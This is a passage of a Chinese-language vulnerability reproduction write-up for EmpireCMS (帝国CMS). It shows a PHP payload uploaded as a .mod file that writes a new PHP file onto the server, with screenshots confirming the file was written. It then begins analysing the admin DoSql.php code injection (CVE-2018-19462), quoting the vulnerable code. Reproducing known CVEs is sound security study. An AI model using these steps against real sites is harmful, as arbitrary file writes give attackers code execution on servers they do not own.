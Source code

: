 ![](https://i.loli.net/2021/02/14/Hu1JlL5yQcOomKk.png)

如下

`<?php fputs(fopen('info.php','w'),'<?php phpinfo(); ?>');?>`

`<?php file_put_contents(“info.php”,”<?php phpinfo(); ?>”); ?>`

上传的文件被包含（被php解析）就会执行以上代码，从而在同目录下创建 `info.php` (`<?php phpinfo(); ?>”); ?>`)



那么来复现一下：

按照如下操作进入上传页面

![](https://i.loli.net/2021/02/14/Igh9rTBwJ16nzDu.png)

![上传页面](https://i.loli.net/2021/02/14/SI7Vw1JAtyqQhKu.png)

构造一个内容为

`<?php fputs(fopen('info.php','w'),'<?php phpinfo(); ?>');?>`

或`<?php file_put_contents(“info.php”,”<?php phpinfo(); ?>”); ?>`

的.mod后缀的文件

![创建文件~](https://i.loli.net/2021/02/14/x17kit5zP9vr8sJ.png)

![导入~](https://i.loli.net/2021/02/14/bSVqfcGsriWaKpD.png)

可以看到文件成功写入了
![成功写入](https://i.loli.net/2021/02/14/bWnH2d4LjRxMgaw.png)

访问即可
![](https://i.loli.net/2021/02/14/o7HhIAsL9CYd6rZ.png)





#### 7.5 代码注入(CVE-2018-19462)

> 影响版本：帝国CMS(EmpireCMS) <= 7.5
>
> 描述：EmpireCMS7.5及之前版本中的admindbDoSql.php文件存在代码注入漏洞。该漏洞源于外部输入数据构造代码段的过程中,网路系统或产品未正确过滤其中的特殊元素。攻击者可利用该漏洞生成非法的代码段,修改网络系统或组件的预期的执行控制流。

漏洞出现页面：

这里其实是使用了文件引用，引用了文件upload/e/admin/db/DoSql.php

![](https://i.loli.net/2021/02/14/DEnAXeTWalSvZR3.png)

查看DoSql.php：

```php
function ExecSql($id,$userid,$username){
	global $empire,$dbtbpre;
	$id=(int)$id;
	if(empty($id))
	{
		printerror('EmptyExecSqlid','');
	}
	$r=$empire->fetch1("select sqltext from {$dbtbpre}enewssql where id='$id'");
	if(!$r['sqltext'])
	{
		printerror('EmptyExecSqlid','');
    }
	$query=RepSqlTbpre($r['sqltext']);#sqltext是上图表格上传的内容，经RepSqlTbpre处理
	DoRunQuery($query);#对$query处理
```